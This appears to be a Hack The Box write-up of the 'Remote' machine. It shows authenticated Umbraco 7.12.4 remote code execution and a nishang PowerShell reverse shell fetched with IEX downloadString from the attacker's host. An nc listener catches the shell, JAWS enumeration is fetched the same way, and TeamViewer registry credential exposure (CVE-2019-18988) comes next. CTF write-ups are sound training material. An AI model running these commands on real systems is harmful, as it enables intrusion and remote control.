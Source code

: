 <br/>
## Initial access
The Umbraco version 7.12.4 is vulnerable to [(Authenticated) Remote Code Execution](https://github.com/noraj/Umbraco-RCE).<br/>
We can check if the exploit works by running `whoami`:
{% highlight plaintext %}
root@world:~/hackthebox/boxes/remote# python exploit.py -u admin@htb.local -p PASSWORDHERE -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command whoami'
iis apppool\defaultapppool
{% endhighlight %}

We get a response that the Umbraco service is running as `iis apppool\defaultappool`.

We can now create a reverse shell with [nishang](https://github.com/samratashok/nishang).<br/>
First we need to do some modifications to the reverse shell.<br/>

Copy the reverse shell to the current working directory:<br/>
`cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 nish.ps1`<br/>

Edit the nish.ps1 to have the following on the bottom of the file to automatically run the reverse shell:<br/>
`Invoke-PowerShellTcp -Reverse -IPAddress your_ip -Port 1336`<br/>

Setup an HTTP server on the directory that has the nish.ps1-file:<br/>
`python3 -m http.server`<br/>

Setup a listener to port 1336:<br/>
`nc -lvnp 1336`<br/>

<br/>
Now we are ready to actually run the reverse shell:<br/>
{% highlight plaintext %}
python exploit.py -u admin@htb.local -p PASSWORDHERE -i 'http://10.10.10.180' -c powershell.exe -a "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/nish.ps1')"
{% endhighlight %}

<br/>
We now have a shell on our listener and we can print the **C:\Users\Public\user.txt** flag.

<br/>
## Privilege escalation
I used [JAWS](https://github.com/411Hall/JAWS) to enumerate the machine:<br/>
`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/jaws-enum.ps1')`

This takes a while, so don't start throwing a tantrum if nothing seems to be happening.

<br/>
In the process listing that JAWS gives, there's `TeamViewer_Service.exe`. Supposing the machine name
is a hint of sorts, I started looking into this some more.<br/>

TeamViewer is installed in directory `C:\Program Files (x86)\TeamViewer\Version7` so now we have the version number.<br/>

This version stores user passwords encrypted with AES, but unhashed, in the registry accessible by low privilege users ([CVE-2019-18988](https://nvd.nist.gov/vuln/detail/CVE-2019-18988)).<br/>
